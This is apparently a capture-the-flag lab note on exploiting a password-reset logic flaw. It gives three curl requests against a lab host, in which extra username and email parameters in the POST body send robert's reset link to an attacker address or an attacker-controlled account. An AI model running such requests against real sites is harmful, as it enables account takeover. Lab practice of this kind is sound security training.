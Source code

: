 # Exposing a "Logical Flaw"
Calling a password reset with the username "robert"
```
curl 'http://10.10.112.177/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

Testing the priority in which value is used for the reset email
```
curl 'http://10.10.112.177/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

Changing the email value through the post request
```
curl 'http://10.10.112.177/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```
